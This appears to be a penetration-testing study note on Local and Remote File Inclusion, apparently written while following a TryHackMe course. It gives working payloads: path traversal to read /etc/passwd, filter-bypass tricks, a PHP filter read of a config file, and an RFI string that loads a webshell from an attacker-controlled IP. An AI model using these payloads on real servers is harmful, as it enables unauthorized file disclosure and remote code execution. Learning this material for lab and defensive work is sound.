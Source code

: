 Local and Remote File Inclusion vulnerabilities affect web servers with unsanitized inputs into a field used to select a specific file on a device. Good candidates for LFI/RFI are language fields, as these usually serve an entirely different webpage. 

Tools:
- [[Burp Suite]]
# LFI
To test, use the `..` operator to maneuver through the filesystem and select the information you are looking for. Ex: `?site=default&lang=../../../../../../../etc/passwd`. This example is for use in a URL, like in `www.example.com`. To try LFI, add the string above to the URL, like so:
`www.example.com?site=default&lang=../../../../../../etc/passwd`. 

Methods exist of protecting against this attack that are also able to be bypassed. These include:
- Appending a suffix to the string provided; `/etc/passwd` becomes `/etc/passwd.php`
	- Defeated (before a current version of PHP) by appending `%00` to stop PHP processing the string before the suffix is reached. 
- Filtering out `../` sequences (non-recursively!).
	- Defeated by building a string that works after the filter has been applied: `....//` -> `../`
- Forcing the request to select from the current directory; `www/`
	- Defeated by selecting from this directory first, and then traversing out; `www/../../../../../`
- Blacklisting special files; `/etc/passwd` disallowed
	- Defeated by path traversal again; `/etc/passwd` -> `/etc/passwd/.`
We can also obtain files using PHP filters to base64 encode files that would otherwise be rendered by the web server. 
`?lang=php://filter/read=convert.base64-encode/resource=config`

## RCE via LFI
- PHP Wrappers


Some other vulnerabilities also include:
- Filtering only on one request type. For $\_REQUEST calls, the request can be made as either a GET or a POST, but one method may be filtered while the other is not.

# RFI
RFI is even more problematic, because it can lead to immediate RCE. If a web server is horribly misconfigured, the field can be used to point the file requestor method to an http(s) server serving the file. If the file is an executable format like PHP, a webshell or even reverse shell can be planted on the target host and executed from the browser.  Ex: `?site=default&lang=http://<my ip>/webshell.php`. 

*Even if a webshell cannot be uploaded and called into* we may still upload a 
PHP reverse shell and gain command execution on the web server.

RFI example from THM Jr Pentester Path:
![[Remote-File-Inclusion.png]]

Essentially, if a website allows us to choose files, we can trick it into sending a GET request to our machine or website. Then, the victim website will unwittingly execute our malicious file. 

For more information on File Inclusion vulnerabilities, see the TryHackMe Junior Pentester Path. In its' Intro to Web Hacking module, they have a room on File Inclusion vulnerabilities. 
